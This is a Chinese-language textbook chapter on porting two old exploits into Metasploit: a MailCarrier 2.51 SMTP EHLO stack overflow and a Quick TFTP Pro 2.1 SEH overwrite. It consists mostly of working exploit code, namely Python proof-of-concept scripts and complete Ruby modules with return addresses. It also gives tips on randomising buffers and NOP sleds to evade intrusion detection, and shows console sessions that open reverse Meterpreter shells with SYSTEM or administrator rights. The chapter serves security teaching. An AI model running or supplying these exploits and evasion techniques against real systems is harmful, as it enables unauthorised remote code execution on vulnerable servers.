





## 第十五章：将漏洞利用程序移植到 Metasploit 框架

您可以选择从不同的格式将漏洞利用程序转换为 Metasploit，原因有很多，其中之一是回馈社区和框架。并非所有漏洞都基于 Metasploit 框架；一些是用 Perl 和 Python 或 C 和 C++编写的。

当您将漏洞利用程序移植到 Metasploit 时，您将现有的独立漏洞利用程序（如 Python 或 Perl 脚本）转换为在 Metasploit 中使用。当然，在您将漏洞利用程序导入框架后，您可以利用框架的许多高端工具来处理常规任务，这样您就可以专注于您特定漏洞的独特之处。此外，尽管独立的漏洞利用程序通常依赖于您使用特定的有效载荷或操作系统，但一旦移植到框架中，有效载荷可以即时创建，漏洞利用程序可以在多种场景中使用。

本章将指导您将两个独立的漏洞利用程序移植到框架中。通过您对这些基本概念的了解以及您的一点点努力，您应该能够在本章结束时开始自己将漏洞利用程序移植到框架中。

## 汇编语言基础

要充分利用本章内容，您需要对汇编编程语言有一个基本的了解。我们在本章中使用了大量的底层汇编语言指令和命令，所以让我们看看最常见的几个。

### EIP 和 ESP 寄存器

*寄存器*是存储信息、执行计算或保留应用程序运行所需值的占位符。就本章而言，最重要的两个寄存器是*EIP*，即扩展指令指针寄存器，和*ESP*，即扩展起始指针寄存器。

EIP 中的值告诉应用程序在执行一些代码后去哪里。在本章中，我们将覆盖我们的 EIP 返回地址，并告诉它指向我们的恶意 shellcode。ESP 寄存器是我们缓冲区溢出漏洞中用来覆盖正常应用程序数据并导致崩溃的恶意代码的地方。ESP 寄存器本质上是一个内存地址，也是我们恶意 shellcode 的占位符。

### JMP 指令集

*JMP 指令集*是跳转到 ESP 内存地址的“跳转”。在本章将要探讨的溢出示例中，我们使用 JMP ESP 指令集告诉计算机跳转到 ESP 内存地址，该地址恰好包含我们的 shellcode。

### NOP 指令和 NOP 滑动

*NOP*（无操作）指令。有时在触发溢出时，您可能不知道您将确切地落在分配空间中的哪个位置。NOP 指令只是告诉计算机“如果你看到我，不要做任何事情”，并以十六进制的\x90 表示。

*NOP slide*是一系列 NOP 指令的组合，用来创建到我们的 shellcode 的滑动。当我们实际触发 JMP ESP 指令时，我们会遇到一些 NOP 指令，这些指令会滑动直到我们到达 shellcode。

## 将缓冲区溢出移植到其他平台

我们的第一个例子是一个典型的远程缓冲区溢出，只需要一个跳转到扩展堆栈指针（JMP ESP）指令来达到 shellcode。这个漏洞利用被称为“MailCarrier 2.51 SMTP EHLO / HELO 缓冲区溢出漏洞利用”，它使用 MailCarrier 2.51 SMTP 命令来引起缓冲区溢出。

* * *

### 注意

你可以在[`www.exploit-db.com/exploits/598/`](http://www.exploit-db.com/exploits/598/)找到漏洞利用和易受攻击的应用程序。

* * *

但这是一个较老的漏洞利用程序，最初是为 Windows 2000 编写的。当你现在运行它时，它的工作方式并不完全符合你的预期。方便的是，Metasploit 框架中已经有一个模块来实现这个漏洞利用，尽管它可能需要一些改进。经过一段时间使用不同缓冲区长度的调查，你会发现有超过 1000 个字节的 shellcode 可用，并且需要调整缓冲区长度 4 个字节。（关于如何实现这一点的更多信息，请阅读“漏洞编写教程第一部分：基于堆栈的溢出”，在[`www.exploit-db.com/download_pdf/13535/`](http://www.exploit-db.com/download_pdf/13535/)。）这个漏洞利用的新概念验证如下：我们移除了 shellcode，并用字符串(*AAAA*)替换了跳转指令以覆盖 EIP 寄存器。（概念验证漏洞利用包含演示漏洞所需的基本代码，但不携带实际的有效负载，并且在许多情况下它们在正确工作之前需要大量修改。）

```
#!/usr/bin/python
#########################################################
# MailCarrier 2.51 SMTP EHLO / HELO Buffer Overflow     #
# Advanced, secure and easy to use Mail Server.         #
# 23 Oct 2004 - muts                                    #
#########################################################

import struct
import socket

print "\n\n###############################################"
print "\nMailCarrier 2.51 SMTP EHLO / HELO Buffer Overflow"
print "\nFound & coded by muts [at] whitehat.co.il"
print "\nFor Educational Purposes Only!\n"
print "\n\n###############################################"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = "\x41" * 5093
buffer += "\42" * 4
buffer += "\x90" * 32
buffer += "\xcc" * 1000

try:
    print "\nSending evil buffer..."
    s.connect(('192.168.1.155',25))
    s.send('EHLO ' + buffer + '\r\n')
    data = s.recv(1024)
    s.close()
    print "\nDone!"
except:
    print "Could not connect to SMTP!"
```

如你所想，将独立的漏洞利用程序移植到 Metasploit 最快和最简单的方法是修改框架中的一个类似的漏洞利用程序。这就是我们接下来要做的。

### 简化现有的漏洞利用

在移植 MailCarrier 漏洞利用的第一步，我们将现有的 Metasploit 模块简化为一个简单的骨架文件，如下所示：

```
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
        Rank = GoodRanking
             include Msf::Exploit::Remote::Tcp

        def initialize(info = {})
            super(update_info(info,
                  'Name'             => 'TABS MailCarrier v2.51 SMTP EHLO Overflow',
                       'Description' => %q{
                       This module exploits the MailCarrier v2.51 suite SMTP service.
                       The stack is overwritten when sending an
 overly long EHLO command.
                       },
                       'Author'      => [ 'Your Name' ],
                       'Arch'        => [ ARCH_X86 ],
                       'License'     => MSF_LICENSE,
                       'Version'     => '$Revision: 7724 $',
                       'References'  =>
                        [
                              [ 'CVE', '2004-1638' ],
                              [ 'OSVDB', '11174' ],
                              [ 'BID', '11535' ],
                              [ 'URL', 'http://www.exploit-db.com/exploits/598' ],
                       ],
                       'Privileged'          => true,
                       'DefaultOptions'      =>
                       {
                              'EXITFUNC'     => 'thread',
                       },
                       'Payload' =>
                              {
                                      'Space'                => 300,
                                      'BadChars'             => "\x00\x0a\x0d\x3a",
                                      'StackAdjustment'      => −3500,
                              },
                       'Platform' => ['win'],
                       'Targets'  =>
                       [
                                   [ 'Windows XP SP2 - EN', { 'Ret'
 => `0xdeadbeef` } ],
                       ],
                       'DisclosureDate' => 'Oct 26 2004',
                       'DefaultTarget'  => 0))

                       register_options(
                        [
                                     Opt::RPORT(`25`),
                              Opt::LHOST(), # Required for stack offset
                        ], self.class)
       end

       def exploit
              connect

                 sock.put(sploit + "\r\n")

              handler
              disconnect
       end

end
```

由于这个漏洞利用不需要身份验证，我们只需要如所示的`Msf::Exploit::Remote::Tcp`混入。我们已经在之前的章节中讨论了混入；你会记得混入允许你使用内置协议，如`Remote::Tcp`，来执行基本的远程 TCP 通信。

在前面的列表中，目标返回地址被设置为无效值`Oxdeadbeef`在，默认 TCP 端口被设置为`25`在。连接到目标后，Metasploit 将使用`sock.put`发送恶意攻击，如所示，并为我们构建漏洞利用。

### 配置漏洞定义

让我们看看我们最初如何配置我们的漏洞定义。我们需要向服务提供协议要求的问候语，一个大的缓冲区，一个我们将控制 EIP 的占位符，一个简短的 NOP 滑动，以及我们的 shellcode 的占位符。以下是代码：

```
def exploit
       connect

     sploit = "`EHLO` "
     sploit << "\x41" * `5093`
     sploit << "\x42" * `4`
     sploit << "`\x90`" * 32
     sploit << "`\xcc`" * 1000

       sock.put(sploit + "\r\n")

       handler
       disconnect
end
```

恶意缓冲区基于原始漏洞利用代码构建，从 `EHLO` 命令开始，如  所示，后面跟着一长串 *A* 字符（5093 个），4 个字节用于覆盖 EIP 寄存器，如  所示，然后是一个小的 NOP 滑动，接着是一些虚拟 shellcode，如  所示。

在这种情况下，我们在  处选择了一个中断（断点），这样当执行到达我们的 shellcode 时，执行将暂停，而无需我们设置断点。

配置漏洞部分后，我们将文件保存为 *mailcarrier_book.rb* 在 *modules/exploits/windows/smtp/*。

### 测试我们的基本漏洞利用

在下一步中，我们在 *msfconsole* 中加载模块，设置所需选项，并配置 `generic/debug_trap` 负载（一个用于漏洞开发的优秀负载，当你在调试器中跟踪应用程序时触发停止点）。然后我们运行模块：

```
msf > `use exploit/windows/smtp/mailcarrier_book`
  msf exploit(mailcarrier_book) > `show options`

  Module options:

     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST                   yes       The local address
     RHOST                   yes       The target address
     RPORT  25               yes       The target port

  Exploit target:

     Id  Name
     --  ----
     0   Windows XP SP2 - EN

  msf exploit(mailcarrier_book) > `set LHOST 192.168.1.101`
  LHOST => 192.168.1.101
  msf exploit(mailcarrier_book) > `set RHOST 192.168.1.155`
  RHOST => 192.168.1.155
 msf exploit(mailcarrier_book) > `set payload generic/debug_trap`
  payload => generic/debug_trap
  msf exploit(mailcarrier_book) > `exploit`
  [*] Exploit completed, but no session was created.
  msf exploit(mailcarrier_book) >
```

我们设置选项，就像我们正在运行一个正常的漏洞利用一样，除了我们使用 `generic/debug_trap` 负载（用于测试我们的漏洞利用）。

模块运行后，调试器应该暂停，EIP 被覆盖为 *42424242*，如图 图 15-1 所示；如果你看到成功的 EIP 覆盖为 *42424242*，你就知道你的漏洞利用正在工作。注意在 图 15-1 中，EIP 寄存器指向 42424242，并且 NOP 滑动和虚拟负载已按预期进入缓冲区。

图 15-1. MailCarrier 初始覆盖

### 实现框架的功能

通过覆盖我们的 EIP 地址来证明模块的基本骨架工作后，我们可以缓慢地开始实现框架的功能。我们首先在 `'Targets'` 块中将目标返回地址（如下例中所示加粗）设置为 JMP ESP 地址。这个地址与原始漏洞利用中使用的地址相同；它在 Windows XP SP2 的 *SHELL32.DLL* 中找到。我们需要找到一个合法的返回地址以确保我们的代码在目标操作系统中正确执行。记住，一些漏洞只在特定的操作系统上工作，就像这个漏洞一样。我们使用的是 *SHELL32.DLL* 中的地址，这个地址会随着不同版本或服务包的变化而变化。如果我们能在应用程序的内存地址中找到一个标准的 JMP ESP，我们就不需要使用 Windows DLL，并可以使这个漏洞利用适用于所有 Windows 平台，因为内存地址永远不会改变。

```
'Targets' =>
       [
              [ 'Windows XP SP2 - EN', { 'Ret' => `0x7d17dd13` } ],
       ],
```

Metasploit 将在运行时将返回地址添加到漏洞利用中。您可以用`[target['Ret']].pack('V')`替换漏洞利用块中的返回地址。这将把目标返回地址插入到漏洞利用中，并以小端格式反转字节。（端序由目标 CPU 的架构决定，与 Intel 兼容的处理器使用小端字节序。）

* * *

### 注意

如果你声明了多个目标，这条特定的线将根据你在运行漏洞利用时选择的目标选择正确的返回地址。注意，将漏洞利用移动到框架中已经增加了其多功能性。

* * *

```
sploit = "EHLO "
sploit << "\x41" * 5093
sploit << [target['Ret']].pack('V')
sploit << "\x90" * 32
sploit << "\xcc" * 1000
```

重新执行漏洞利用模块应该导致成功跳转到 INT3 虚拟 shellcode 指令，如图 15-2 所示。

图 15-2. 成功跳转到虚拟 shellcode；我们处于用户控制的 INT3 指令处。

### 添加随机化

大多数入侵检测系统在检测到跨越网络的长字符串*A*时会触发警报，因为这通常是漏洞的常见缓冲区模式。因此，最好尽可能多地对你的漏洞利用引入随机化，因为这样做将破坏许多针对特定漏洞的签名。

要给这个漏洞利用添加随机性，编辑超级块中的`'Targets'`部分，包括在覆盖 EIP 之前所需的偏移量，如下所示：

```
'Targets' =>
       [
                 [ 'Windows XP SP2 - EN', { 'Ret' =>
 0x7d17dd13, `'Offset' => 5093` } ],
       ],
```

通过在这里声明`Offset` ，你将不再需要在漏洞本身中手动包含*A*字符串。这是一个非常有用的功能，因为在某些情况下，不同操作系统版本之间的缓冲区长度可能会有所不同。

我们现在可以编辑漏洞利用部分，让 Metasploit 在运行时生成一个随机的大写字母字符串，而不是 5093 个*A*。从现在开始，每次运行漏洞利用都将有一个唯一的缓冲区。（我们将使用`rand_text_alpha_upper`来完成此操作，但我们并不局限于这个引擎。要查看所有可用的文本格式，请参阅位于 Back|Track 下的`/opt/metasploit/msf3/lib/rex/*`目录中的`*text.rb*`文件。）

```
sploit = "EHLO "
sploit << `rand_text_alpha_upper`(target['Offset']
sploit << [target['Ret']].pack('V')
sploit << "\x90" * 32
sploit << "\xcc" * 1000
```

如您所见，*A*字符串将被替换为随机的字符串，包含大写字母和数字。当我们再次运行模块时，它仍然可以正常工作。

### 移除 NOP 滑块

我们下一步要做的是移除非常明显的 NOP 滑块，因为这也是一个经常触发入侵检测系统的项目。尽管`\x90`是最著名的无操作指令，但它并不是唯一可用的。我们可以使用`make_nops()`函数来告诉 Metasploit 在模块中使用随机的 NOP 等效指令：

```
sploit = "EHLO "
sploit << rand_text_alpha_upper(target['Offset'])
sploit << [target['Ret']].pack('V')
sploit << `make_nops(32)`
sploit << "\xcc" * 1000
```

我们再次运行模块并检查我们的调试器，它应该在 INT3 指令上再次暂停。熟悉的 NOP 滑动已被看似随机的字符所取代，如图 15-3 所示。

### 移除虚拟 Shellcode

在模块中的所有内容都正确工作后，我们现在可以移除虚拟 Shellcode。编码器将排除模块超级块中声明的坏字符。

```
sploit = "EHLO "
sploit << rand_text_alpha_upper(target['Offset'])
sploit << [target['Ret']].pack('V')
sploit << make_nops(32)
sploit << `payload.encoded`
```

图 15-3. 随机化的 MailCarrier 缓冲区

`payload.encoded` 函数告诉 Metasploit 在运行时将指定的有效载荷附加到恶意字符串的末尾。

现在，当我们加载我们的模块，设置一个真实的有效载荷并执行它时，我们应该会看到我们辛苦获得的 shell，如下所示：

```
msf exploit(mailcarrier_book) > `set payload windows/meterpreter/reverse_tcp`
payload => windows/meterpreter/reverse_tcp
msf exploit(mailcarrier_book) > `exploit`

[*] Started reverse handler on 192.168.1.101:4444
[*] Sending stage (747008 bytes)
[*] Meterpreter session 1 opened (192.168.1.101:4444 -> 192.168.1.155:1265)

meterpreter > `getuid`
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### 我们完成后的模块

只为总结，以下是这个 Metasploit 漏洞利用模块的完整和最终代码：

```
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
       Rank = GoodRanking

       include Msf::Exploit::Remote::Tcp

       def initialize(info = {})
              super(update_info(info,
                     'Name'           => 'TABS MailCarrier v2.51 SMTP EHLO Overflow',
                     'Description'    => %q{
                     This module exploits the MailCarrier v2.51 suite SMTP service.
                     The stack is overwritten when sending
 an overly long EHLO command.
                     },
                     'Author'         => [ 'Your Name' ],
                     'Arch'           => [ ARCH_X86 ],
                     'License'        => MSF_LICENSE,
                     'Version'        => '$Revision: 7724 $',
                     'References'     =>
                     [
                              [ 'CVE', '2004-1638' ],
                              [ 'OSVDB', '11174' ],
                              [ 'BID', '11535' ],
                              [ 'URL', 'http://www.exploit-db.com/exploits/598' ],
                     ],
                     'Privileged'            => true,
                     'DefaultOptions'        =>
                     {
                              'EXITFUNC'     => 'thread',
                     },
                     'Payload' =>
                              {
                                      'Space'               => 1000,
                                      'BadChars'            => "\x00\x0a\x0d\x3a",
                                      'StackAdjustment'     => −3500,
                              },
                     'Platform' => ['win'],
                     'Targets'  =>
                     [
                              [ 'Windows XP SP2 - EN',
 { 'Ret' => 0x7d17dd13, 'Offset' => 5093 } ],
                     ],
                     'DisclosureDate' => 'Oct 26 2004',
                     'DefaultTarget'  => 0))

                     register_options(
                     [
                              Opt::RPORT(25),
                              Opt::LHOST(), # Required for stack offset
                     ], self.class)
        end

        def exploit
              connect

              sploit = "EHLO "
              sploit << rand_text_alpha_upper(target['Offset'])
              sploit << [target['Ret']].pack('V')
              sploit << make_nops(32)
              sploit << payload.encoded
              sock.put(sploit + "\r\n")

              handler
              disconnect
        end

end
```

你刚刚完成了第一个将缓冲区溢出漏洞利用程序移植到 Metasploit 的工作！

## SEH Overwrite Exploit

在我们的下一个示例中，我们将 Quick TFTP Pro 2.1 的 Structured Exception Handler (SEH)覆盖漏洞利用程序转换为 Metasploit。SEH 覆盖发生在你覆盖应用程序异常处理程序的指针时。在这个特定的漏洞利用程序中，应用程序触发一个异常，当它到达你控制的指针时，你可以将执行流程导向你的 shellcode。这个漏洞利用程序本身比简单的缓冲区溢出复杂一些，但它非常优雅。在 SEH 覆盖中，我们试图绕过在发生重大错误或崩溃时尝试优雅关闭应用程序的处理程序。

在本章的剩余部分，我们将使用*POP-POP-RETN*技术来允许我们访问攻击者控制的内存空间并获得完整的代码执行。*POP-POP-RETN*技术通常用于尝试绕过 SEH 并执行我们自己的代码。汇编中的第一个*POP*从堆栈中拉取一个内存地址，本质上移除了一个内存地址指令。第二个*POP*也从堆栈中拉取一个内存地址。*RETN*将我们返回到用户控制的代码区域，在那里我们可以开始执行我们的内存指令。

* * *

### 注意

要了解更多关于 SEH 覆盖的信息，请参阅[`www.exploit-db.com/download_pdf/10195/`](http://www.exploit-db.com/download_pdf/10195/)。

* * *

Quick TFTP Pro 2.1 漏洞利用程序由 Muts 编写。您可以在[`www.exploit-db.com/exploits/5315/`](http://www.exploit-db.com/exploits/5315/)找到完整的漏洞利用程序代码以及应用程序。我们在这里简化了漏洞利用程序，使其更容易移植到 Metasploit 中——例如，我们移除了有效载荷。剩余的骨架包含了我们在 Metasploit 中使用漏洞所需的所有信息。

```
#!/usr/bin/python
# Quick TFTP Pro 2.1 SEH Overflow (0day)
# Tested on Windows XP SP2.
# Coded by Mati Aharoni
# muts..at..offensive-security.com
# http://www.offensive-security.com/0day/quick-tftp-poc.py.txt
#########################################################
import socket
import sys

print "[*] Quick TFTP Pro 2.1 SEH Overflow (0day)"
print "[*] http://www.offensive-security.com"

host = '127.0.0.1'
port = 69

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
except:
    print "socket() failed"
    sys.exit(1)

filename = "pwnd"
shell = "\xcc" * 317

mode = "A"*1019+"\xeb\x08\x90\x90"+"\x58\x14\xd3\x74"+"\x90"*16+shell

muha = "\x00\x02" + filename+ "\0" + mode + "\0"

print "[*] Sending evil packet, ph33r"
s.sendto(muha, (host, port))
print "[*] Check port 4444 for bindshell"
```

正如我们在之前的 JMP ESP 示例中所做的那样，我们首先通过使用与我们之前使用的类似漏洞的基例来为新模块创建一个骨架：

```
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote

        `include Msf::Exploit::Remote::Udp`
        `include Msf::Exploit::Remote::Seh`

       def initialize(info = {})
              super(update_info(info,
                     'Name'           => 'Quick TFTP Pro
 2.1 Long Mode Buffer Overflow',
                     'Description'    => %q{
                            This module exploits a stack overflow
 in Quick TFTP Pro 2.1.
                     },
                     'Author'         => 'Your Name',
                     'Version'        => '$Revision: 7724 $',
                     'References'     =>
                            [
                                    ['CVE', '2008-1610'],
                                    ['OSVDB', '43784'],
                                    ['URL', 'http://www.
exploit-db.com/exploits/5315'],
                            ],
                     'DefaultOptions' =>
                            {
                                   'EXITFUNC' => 'thread',
                            },
                     'Payload'        =>
                            {
                                   'Space'    => 412,
                                   'BadChars' => "\x00\x20\x0a\x0d",
                                   'StackAdjustment' => −3500,
                            },
                     'Platform'       => 'win',
                     'Targets'        =>
                            [
                                    [ 'Windows XP SP2',    { 'Ret' => 0x41414141 } ],
                            ],
                     'Privileged'     => true,
                     'DefaultTarget'  => 0,
                     'DisclosureDate' => 'Mar 3 2008'))

                      register_options([`Opt::RPORT(69)`], self.class)

       end

       def exploit
              connect_udp

              print_status("Trying target #{target.name}...")

                 `udp_sock.put(sploit)`

              disconnect_udp
       end

end
```

因为这个漏洞利用使用了简单的文件传输协议（TFTP），我们需要包含中显示的 `Msf::Exploit::Remote::Udp` 混合。由于它操作结构化异常处理程序，我们还需要包含中显示的 `Msf::Exploit::Remote::Seh` 混合，以访问处理 SEH 溢出的一些函数。因为 TFTP 服务器通常监听 UDP 端口 69，我们在处将该端口声明为模块的默认端口。最后，一旦构建了恶意字符串，代码就被放在上。

我们开始使用本章前面提到的原始 Python 漏洞的相同骨架来构建 TFTP 漏洞。我们将将其主要部分添加到我们的漏洞部分。

```
def exploit
       connect_udp

       print_status("Trying target #{target.name}...")

       evil = "\x41" * 1019
     `evil << "\xeb\x08\x90\x90"`  # Short Jump
     `evil << "\x58\x14\xd3\x74"`  # POP-POP-RETN
       evil << "\x90" * 16   # NOP slide
       evil << "\xcc" * 412  # Dummy Shellcode

     sploit = "\x00\x02"
       sploit << "pwnd"
       sploit << "\x00"
       sploit << evil
       sploit << "\x00"

       udp_sock.put(sploit)

       disconnect_udp
end
```

在初始的 *A* 字符串（共 1019 个，用十六进制的 `\x41` 表示）之后，我们在处添加一个短跳转来覆盖下一个 SE 处理程序（NSEH）。在本章开头，我们在攻击 MailCarrier 时使用了一个简单的堆栈溢出示例，覆盖了指令指针。在这里，我们覆盖 SEH 和 NSEH 以跳出结构化异常处理程序。然后在处添加一个 *POP-POP-RETN* 指令序列的地址来覆盖 SEH，这使我们进入一个我们控制的内存区域。

接下来，为了确保数据包被 TFTP 服务器识别为写请求，我们在 shellcode 后面追加 `\x00\x02`，如所示。

现在，当我们加载模块并针对目标运行它时，我们的调试器应该会暂停，出现 SEH 覆盖，如图图 15-4 所示。

图 15-4. Quick TFTP 的初始 SEH 覆盖

因为那串长长的 *A* 和发送到应用程序的 NOP 滑块会触发 IDS 警报，我们将用随机选择的 uppercase 字母字符替换 *A*（如前例所示），并将 `\x90` 字符替换为 NOP 等效字符，如下所示（粗体代码）：

```
evil = `rand_text_alpha_upper(1019`)   # Was: "\x41" * 1019
evil << "\xeb\x08\x90\x90"           # Short Jump
evil << "\x58\x14\xd3\x74"           # pop/pop/ret
evil << `make_nops(16)`                # Was: "\x90" * 16  # NOP slide
evil << "\xcc" * 412                 # Dummy Shellcode
```

总是检查每次更改后新模块的功能是个好主意。正如您在图 15-5 中看到的那样，随机字符已被应用程序接受，SEH 仍然像之前一样受控。

图 15-5. 带有随机字符的 Quick TFTP 缓冲区

现在我们知道模块仍然表现正常，我们可以在`'Targets'`定义中设置返回地址。在这个例子中，地址是从 *oledlg.dll* 的 *POP-POP-RETN*，就像原始漏洞利用一样。记住，如果我们能在同一个应用程序中找到一个每次都加载的内存指令集，我们可以创建一个通用的漏洞利用，它不依赖于 Microsoft DLLs，并且可以针对每个操作系统。在这种情况下，我们使用 *oledlg.dll* 来使这个漏洞利用通用。

```
'Targets'        =>
      [
              [ 'Windows XP SP2',  { 'Ret' => 0x74d31458 } ], # p/p/r oledlg
      ],
```

我们现在有了 Windows XP SP2 的目标和返回地址 0x74d31458，如图所示 。

接下来，我们创建一个由 1019 个字节组成的随机、字母、大写字符串：

```
evil = rand_text_alpha_upper(1019)
evil << `generate_seh_payload`(target.ret)
evil << make_nops(16)
```

`generate_seh_payload` 函数使用声明的返回地址，并将自动插入短跳转（跳过 SEH 处理程序）。`generate_seh_payload` 函数为我们计算跳转，所以它会直接跳转到 *POP-POP-RETN*。

我们最后一次使用虚拟外壳码运行模块，看到我们的调试器包含许多随机字符，但一切仍然在我们直接控制之下，如图 图 15-6 所示。在某些情况下，随机字符可能比 NOPs 更好，因为它们有助于迷惑许多可能正在监控网络的 IDS。许多基于签名的 IDS 可能会在大量 NOPs 上触发。

 图 15-6. 完全控制的快速 TFTP

接下来，我们移除虚拟外壳码，并使用真实的有效载荷运行模块以获取我们的外壳，如图所示：

```
msf > `use exploit/windows/tftp/quicktftp_book`
msf exploit(quicktftp_book) > `set payload windows/meterpreter/reverse_tcp`
payload => windows/meterpreter/reverse_tcp
msf exploit(quicktftp_book) > `set LHOST 192.168.1.101`
LHOST => 192.168.1.101
msf exploit(quicktftp_book) > `set RHOST 192.168.1.155`
RHOST => 192.168.1.155
msf exploit(quicktftp_book) > `exploit`

[*] Started reverse handler on 192.168.1.101:4444
[*] Trying target Windows XP SP2...
[*] Sending stage (747008 bytes)
[*] Meterpreter session 2 opened (192.168.1.101:4444 -> 192.168.1.155:1036)
meterpreter > `getuid`
Server username: V-XP-SP2-BARE\Administrator
```

现在我们有了 Meterpreter 外壳，我们已经成功地将漏洞利用导入并使用框架在 SEH 漏洞利用中！

```
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
        include Msf::Exploit::Remote::Udp
        include Msf::Exploit::Remote::Seh

        def initialize(info = {})
                super(update_info(info,
                        'Name'           => 'Quick TFTP Pro 2.1
 Long Mode Buffer Overflow',
                        'Description'    => %q{
                                This module exploits a stack
 overflow in Quick TFTP Pro 2.1.
                        },
                        'Author'         => 'Your Name',
                        'Version'        => '$Revision: 7724 $',
                        'References'     =>
                                [
                                         ['CVE', '2008-1610'],
                                         ['OSVDB', '43784'],
                                         ['URL', 'http://www.exploit-
db.com/exploits/5315'],
                                ],
                        'DefaultOptions' =>
                                {
                                         'EXITFUNC' => 'thread',
                                },
                        'Payload'        =>
                                {
                                         'Space'    => 412,
                                         'BadChars' => "\x00\x20\x0a\x0d",
                                         'StackAdjustment' => −3500,
                                },
                        'Platform'       => 'win',
                        'Targets'        =>
                                [
                                         [ 'Windows XP SP2',
     { 'Ret' => 0x74d31458 } ],
                                               # p/p/r oledlg
                                ],
                        'Privileged'     => true,
                        'DefaultTarget'  => 0,
                        'DisclosureDate' => 'Mar 3 2008'))

                        register_options([Opt::RPORT(69)], self.class)

        end

        def exploit
                connect_udp

                print_status("Trying target #{target.name}...")

                evil = rand_text_alpha_upper(1019)
                evil << generate_seh_payload(target.ret)
                evil << make_nops(16)

                sploit = "\x00\x02"
                sploit << "pwnd"
                sploit << "\x00"
                sploit << evil
                sploit << "\x00"

                udp_sock.put(sploit)

                disconnect_udp
        end

end
```

## 总结

本章旨在帮助你了解如何将不同的独立漏洞利用导入到 Metasploit 框架中。你可以以多种方式将其导入框架，不同的漏洞利用将需要不同的方法和技巧。

在本章的开头，你学习了如何使用一些基本的汇编指令来执行简单的堆栈溢出并将其导入到框架中。我们继续到 SEH 覆盖，我们能够用它来绕过处理程序并获取远程代码执行。我们使用 *pop/pop/ret* 技巧来获得远程执行代码的能力，并使用 Metasploit 打开 Meterpreter 外壳。

在下一章中，我们将开始深入研究 Meterpreter 脚本语言和后利用模块。当我们攻陷系统并利用 Meterpreter 时，我们可以执行许多额外的攻击。我们将创建自己的 Meterpreter 脚本，并学习框架的结构以及如何最大限度地利用它。
